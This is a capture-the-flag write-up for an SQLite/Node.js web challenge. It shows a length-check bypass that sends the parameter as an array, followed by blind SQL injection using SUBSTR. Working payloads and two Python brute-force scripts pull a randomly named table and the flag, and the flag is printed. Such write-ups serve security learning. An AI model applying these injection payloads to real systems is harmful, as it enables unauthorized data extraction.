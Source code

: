# Challenge link
URL:      [http://45.122.249.68:20020/](http://45.122.249.68:20020/) (maybe the server was shut down)

# Challenge description
Recon carefully so as not to miss anything

# Challenge source file
URL: [https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing](https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing)

# Difficulty
Not easy

# Author
dcthinh

# Approach
- SQL injection is a simple but dangerous web vulnerability so every CTF challenge which I have attended has at least one. At the time I saw the challenge's name, I realized that it would be SQLi.
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/20954e6b-56c0-4cfb-96e2-a8e09c0630c6)

- I tried to click on the *Home* and *About* buttons but nothing happened. Let's try to read the source:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d38dc2a3-7d6d-4d51-93ea-37cf6012325c)

- I still see nothing there. It's time to read the source code.
- In *app.js*, I saw that they used the SQLite3 db. There's a table named API, and the flag table has a format name: "flag_" + an UUIDv4 string. More important, there is a hidden page which I found when reading this piece of code:
  ```
  app.get('/search', (req, res) => {
      const { name } = req.query;
      const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
      if (!name) {
          return res.redirect('/search?name=1');
      }
  ```
- They filtered some keywords.
- Let's navigate the hidden site:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/91332e12-a283-4b6c-b2af-603f15a035d1)
  
- It is just a simple joke dispenser. According to the source code, it has 6. But it's not the problem. We need to take the flag.
- Because it is an SQLi challenge, I also tried to input something like *' and 1 is 1--* into the *name* parameter. A message appeared:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d88bfe0f-1a37-4bc0-8d4e-25b899d95200)

- That means, the input of *name* is too long, because of this:
  ```
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
  ```
- But this site is written in JavaScript. Since the whole program did not check if the *name* parameter is a string, *what would it be if I turned it into an array?* Let's check:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/9d8f109e-c0b2-4812-9ba7-be31cc60f347)

- It worked!!! If you don't know why it worked, the reason is JavaScript determines the length of an array is the total number of elements inside it. Now I can input an arbitrary length payload.

- I tried to input something weird into the *name* parameter. The joke disappeared immediately:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/4594b0e9-ad9f-457b-83f8-0fce3510586b)
  
- At that time, I immediately claimed that I should use the Blind SQL injection technique, due to the message appearance behavior of the site. But the keywords *substring* and *substrs* were blocked.
- After an hour of thinking, I realized that SQLite uses *substr* keyword, not *substring* or *substrs*. This - is - the - key - to - solve - this - challenge.

# Problem-solving
  ## Database name length brute-forcing
  - I don't know the flag table name, so I have to find it. The name is randomly generated by this function:
    ```
    const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
    ```
  - First, I wrote a payload to determine the length of the table name (for not being time-consuming). I use Burp Suite for convenience:
    ```
    1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/ef581b82-f55a-4fe1-ae23-52430745bed4)
  - It worked. It's time to brute-force.
  - I set the Grep-Match to the string *"id":1* as the clue:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/109ae2c4-fdbc-4336-8c2e-1b3b6f716f41)

  - Setup done, now attack phase:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d6e047f5-89ec-4e9f-88a4-5913046709f4)

  - The result is 41. Since the *flag_* takes 5 characters, I have to find 36 other chars.
  ## Flag brute-forcing
  - I write a simple Python code for this purpose:
    ```
    import requests

    char_set = string.ascii_letters + string.digits + string.punctuation
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = 'flag_'
    print(flag)

    for i in range(6, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(name, {i}, 1) FROM sqlite_master WHERE type IS 'table' AND name LIKE 'flag_%') IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - The flag table name is: flag_c1abd148_acae_40be_a953_eae333f90da0
  - The remaining work is quite simple. This Python code is used to find the flag:
    ```
    import requests

    char_set = string.ascii_letters + string.digits + string.punctuation
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = ''

    for i in range(1, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(flag, {i}, 1) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - Flag: W1{I_th1nk_u_r_so_lite^_^}


